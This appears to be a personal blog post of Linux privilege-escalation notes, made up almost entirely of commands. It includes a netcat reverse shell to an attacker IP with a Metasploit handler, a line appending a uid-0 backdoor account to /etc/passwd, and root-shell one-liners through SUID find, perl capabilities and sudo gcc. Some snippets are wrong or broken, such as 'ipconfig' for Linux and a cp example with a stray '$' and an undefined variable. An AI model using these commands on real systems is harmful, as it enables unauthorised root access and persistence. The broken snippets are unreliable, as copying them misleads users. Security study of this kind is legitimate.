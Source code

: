 ```yaml
---
layout: post
title: Linux Manual Privilege Escalation
titledate: 09/17/23
tags: ["infosec", "info_gathering", "offsec", "privesc"]
---
```


#### linux enumeration

    $ id

tell us the current user, uid, and gid

    $ cat /etc/passwd

give us all users as well as potential installed services with users like www-data and sshd

    $ hostname

gives us the system hostname

    $ uname -a

    $ cat /etc/os-release

    $ cat /etc/issue

give us system info

    $ ps aux can list running processes

display networking interface information

    $ ipconfig 

    $ ip

print routing information 

    $ route

    $ routel

may be able to gather iptables information

    $ cat /etc/iptables/rules.v4

list linux scheduled tasks with cron

    $ ls -lah /etc/cron*

system admins may add task to the crontab

    $ sudo crontab -l

list installed packages of package manager

    $ dpkg -l

searching writeable directories

    $ find / -writable -type d 2>/dev/null

list mounted drives

    $ cat /etc/fstab

    $ mount

list all available disks

    $ lsblk

list driver and kernel modules

    $ lsmod

to list more info about a specific module

    $ /sbin/modinfo libata

### NOTE: if we can bypass a setuid root program to call a cmd of our choice we can impersonate the root user and gain equivalent access

    $ find / -perm -u=s -type f 2>/dev/null

search for SUID marked files

    $ cat binary |strings|grep 'word'

#### automating enumeration

we can use the tool /usr/bin/unix-privesc-check on our box to look for system misconfiguration

we can try both standard and detailed mode - copy the script over the system and dump it to a file

    ./unix-privesc-check standard > output.txt

some other tools that can check linux systems are LinEnum and LinPeas

check history and user env

    $ history

    $ env

    $ cat ~/.bashrc or .bash_profile or .zshrc or .zprofile etc

crunch is a quite powerful world list generator

try sudo su

    $ sudo -l

list privs

    $ sudo -i 

execute as root

we can observe running processes even if run as root 

    $ watch -n 1 "ps -aux | grep pass"

tcpdump can be useful in capturing any attempted network communication, in this example we try to look for the word pass

    $ sudo tcpdump -i lo -A | grep "pass"

we can inspect the cron log file /var/log/cron.log

    $ grep "CRON" /var/log/syslog

sometimes we can gain access to scripts that execute with higher privs and insert our own code like a shell 1liner 

if using kali to capture a linux nc connection can connect with something like 

our script 

    nc 192.168.1.1 4444 -e /bin/sh

then on our attacking machine

    msf > use/multi/handler
    set our options 
    set payload cmd/unix/reverse_netcat

passwords can be found in /etc/passwd or /etc/shadow but if found in /etc/passwd take priority

if we can write to /etc/passwd we can create a passwd for any user

we can generate a password

    $ openssl passwd pass

then add our new account to /etc/passwd

    $ echo "root2:Fdzt.eqJQ4s0g:0:0:root:/root:/bin/bash" >> /etc/passwd

then we can switch user to that account

    $ su root2

to change  user password 
    
    $ passwd

to get the pid of the passwd process

    $ ps u -C passwd

check the pid UID

    $ grep Uid /proc/(x)/status

if the passwd binary or any binary has the setUID flag or SUID set

    $ ls -asl /usr/bin/passwd

    s - will show the owner as root

in this example the find application has the suid set

    $ find /home/user/Desktop -exec "/usr/bin/bash" -p \;

so if we run it with the exec arg it will execute as root

we can run getcap to look for these binaries

    $ /usr/sbin/getcap -r / 2>/dev/null

https://gtfobins.github.io contains unix binaries that can exploit privesc vulns

for example, if our search above discloses perl as having capabilities setuid set we can search for perl on gtfobins

    $ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'

and the above is an example of how it canbe used to execute a shell

this cmd can enumerate binaries with stuid flag set

### find / -xdev -user root \( -perm -4000 -o -perm -2000 \)

in this example i see the cp binary has the s flag set so gtfobins shows us we can utilize that to copy files from write protected locations like /root/... to our file

for the example i did

    $ TF=/root/flag.txt
    $ $ /usr/bin/cp $TF $LFILE

now we could apply something similar in this case to all files since cp will run with root privs

#### sudo misconfigurations

we can list the services we can run sudo with

    $ sudo -l

can approach attacks similar to the above with setuid

for example running the above command gives sudo privs for gcc

and gtfobins tells us

    $ sudo gcc -wrapper /bin/sh,-s .





